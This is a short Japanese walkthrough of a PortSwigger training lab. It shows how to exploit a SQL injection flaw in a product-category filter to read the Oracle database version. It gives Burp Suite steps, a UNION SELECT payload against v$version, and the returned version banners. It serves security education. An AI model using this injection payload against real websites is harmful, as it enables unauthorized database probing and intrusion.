 # SQL インジェクション攻撃、Oracle 上のデータベースの種類とバージョンのクエリ

次のハッキングラボを実施します  
https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle  
このラボには、製品カテゴリ フィルターに SQL インジェクションの脆弱性が含まれています。UNION 攻撃を使用して、挿入されたクエリから結果を取得できます。

- 1. BurpSuite を起動して、Proxy タブからブラウザを立ち上げます
- 2. ハッキングラボにアクセスします
- 3. 商品をフィルタリングします
- 4. GET /filter?category=XXXX HTTP/2 リクエストを send to repeater します
- 5. リクエストを以下のように書き換えて送信するとバージョンが取得できます

```
GET /filter?category=Accessories'+UNION+SELECT+BANNER,+NULL+FROM+v$version--
```

レスポンス

````html
<tr>
  <th>NLSRTL Version 11.2.0.2.0 - Production</th>
</tr>
<tr>
  <th>Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production</th>
</tr>
<tr>
  <th>PL/SQL Release 11.2.0.2.0 - Production</th>
</tr>
```
````
